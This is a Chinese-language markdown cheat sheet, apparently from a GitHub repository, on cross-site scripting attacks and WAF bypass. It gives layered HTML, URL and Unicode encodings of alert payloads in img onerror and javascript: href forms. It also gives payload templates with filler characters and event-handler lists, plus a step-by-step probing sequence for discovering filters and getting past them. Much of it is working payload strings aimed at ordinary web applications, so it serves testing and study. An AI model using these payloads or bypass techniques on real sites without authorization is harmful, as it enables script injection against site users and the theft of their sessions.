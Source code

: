 # xss 攻击和绕过思路

## 什么样的api可能存在xss 漏洞
输入参数如果能回显则可能存在xss 漏洞

存在xss 的位置可能是
* html 内容
* html 属性
* css 内联样式
* 内联js或者json
* href 等

常见的是html 内容和属性
```
<input> html 内容 </input>

<input> html 内容 </input value=""// html 属性>

```

## html编码，url 编码 和js 编码

html 的解析顺序为3个环节：HTML解码 -->URL解码 -->JS解码

event_handler 没法编码替换，js脚本可以编码

举例1：
```
1. 对javascript:alert(1)进行HTML编码
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
2. 对alert进行JS编码
<img src=xxx onerror="javascript:\u0061\u006c\u0065\u0072\u0074(1)">
3. 以上两种方法混用
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;&#x28;&#x31;&#x29;">

```
举例2：
```
1. 原代码
<a href="javascript:alert('xss')">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074('xss')">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;">test</a>

```

## 攻击顺序
1. 判断是否存在字符串编码
输入<script>alert("1")</script>, 看是否转成html 实体，可以判断是否使用html实体转换。
  
2. 是否存在waf
一般waf 返回403，如果发现403，则存在waf拦截。

## waf 绕过
### 1. xss输出在html内容

一般payload 格式有下面几种
```
<{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}
```

```
<sCriPt{filler}sRc{?filler}={?filler}{url}{?filler}{>,//,Space,Tab,LF}
```

```
<A{filler}hReF{?filler}={?filler}{quote}{special}:{javascript}{quote}{?filler}{>,//,Space,Tab,LF}
```

**{tag}**：html 标签名： a img script 等等

**{filter}**：空格，/ 等，可以是url 编码的字符
```
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s] tab
<tag%09%09xxx -如果失败， s+ tabtab
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+
```
**event_handler** 可能是多个even 函数:
```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
```
**{javascript}**: js代码
js 代码可以混淆，可以js编码成unicode，可以使用html实体编码，几乎没法正则表达式绕过


### 2. xss输出在html 属性
常见的payload 格式：
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```

## html 编码绕过
html 一般会过滤掉< > " &, 所以输出在html 内容位置会比较难绕过，输出在html 属性的payload 通过换编码，混淆等有很多绕过方式。
一般payload 以下格式
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```
举例：
```
" onclick="alert('xss')"
```
## payload 构造试探
```
// 判断是否存在htmlspecialchars
<script>alert("1")</script>

// 判断是否filter格式
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s]
<tag%09%09xxx -如果失败， s+
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+

//判断event_handler是否黑名单格式
<tag{filler}onxxx – 如果失败，onw+.
如果通过， on(load|click|error|show)
<tag{filler}onclick – 如果通过，则没有事件处理程序检查正则表达式。

//构造js payload
```

